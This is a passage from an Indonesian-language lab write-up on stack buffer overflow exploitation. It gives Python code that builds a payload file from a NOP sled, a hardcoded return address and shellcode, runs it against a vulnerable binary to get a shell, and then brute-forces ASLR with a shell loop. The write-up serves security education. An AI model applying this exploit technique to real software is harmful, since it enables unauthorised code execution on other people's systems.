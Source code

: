 ```python

offset = 36
content = bytearray(0x90 for i in range(517))
start = 517 - len(shellcode)
returna = ("\x77\xea\xff\xbf").encode('latin-1')
content[0:1]=("\x41").encode('latin-1')
content[offset:offset+4] = returna
content[start:] = shellcode
file = open("badfile", "wb")
file.write(content)
file.close()
```
pertama-tama seluruh content badfile akan diisi dengan NOP, lalu content pertama kita isi dengan 0x41 untuk mengetahui itu merupakan mulainya str,
kemudian di offset return addres kita isi dengan return address diatas agar masuk ke addres str(badfile), pada akhir ( 517 - len(shellcode)) kita tulis kan shelccode nya

lalu kita buat exploit nya dan menjalankan program stack nya

    python3 exploit.py
    ./StackGuard

jika berhasil akan mengarahkan kita ke shellcode

<img src="img/shell.png" alt="call_shellcode"
     style="float: left;" />
<br>

Exploit berhasil kita lakukan

***

### Task 2: Address Randomization

pada task 2, kita menyalakan sistem aslr dalam linux dengan command

      sudo sysctl -w kernel.randomize_va_space=2

lalu kita lakukan bruteforce sampai ketemu sesuai dengan alamat address nya,

      sh -c "while [ 1 ]; do ./stack; done;"

kita lakukan loop sampai program bisa tereksekusi.
